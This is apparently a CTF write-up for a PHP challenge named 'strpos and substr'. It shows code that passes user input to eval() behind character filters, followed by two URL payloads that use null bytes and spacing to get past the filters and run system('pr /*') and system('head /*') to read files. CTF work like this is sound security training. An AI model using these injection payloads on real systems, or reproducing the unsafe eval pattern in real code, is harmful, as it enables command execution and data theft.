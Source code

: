 # strpos and substr

**Date:** 10, June, 2021

**Author:** Dhilip Sanjay S

---

## Code

- Bypass the filters to execute system commands via `eval`:

```php
<?php
ini_set('display_errors',0);
include("flag.php");
if(!isset($_GET['user'])) highlight_file(__FILE__);
else{
      $a=$_GET['user'];    
      if(strlen($a)>24 || gettype($a)!=="string" ){
        die("oh nâu!!");
      }   
if(preg_match("/\;|\^|\~|\&|\||\[|n|\]|\\$|\.|\`|\"|\||\+|\-|\>|\?|c|\>/i",$a)){
  $a=md5($a);
}

if((strpos(substr($a,4,strlen($a)),"(")>1 ||strpos(substr($a,6,strlen($a)),")")>1)
&&
(preg_match("/[A-Za-z0-9_]/i",
    substr($a,2+strpos(substr($a,4,strlen($a)),"("),2))
||
preg_match("/[A-Za-z0-9_']/i",
    substr(substr(substr($a,4,strlen($a)), 
    strpos(substr($a,4,strlen($a)),"("),12), 
    strpos(substr(substr($a,4,strlen($a)),
    strpos(substr($a,4,strlen($a)),"("),12),
    ")")
    -1,
    1))))
{
  $a=md5($a);
}

eval("echo 'Hello ".$a."<br>$flag';");

}
```

## Solutions

- `?user=%00%00%27,(system%00)(%27pr%20/*%27),%27` -> `?user='%00%00,(system%00)('pr /*'),'`
  - Check the behaviour of `%00` character in PHP
  - `pr` command - convert text files for printing 

- `?user=%27,system%20%20(%27head%20/*%27%20),%27` -> `',system  ('head /*' ),'`


![Flag](Images/substrstrpos.png)
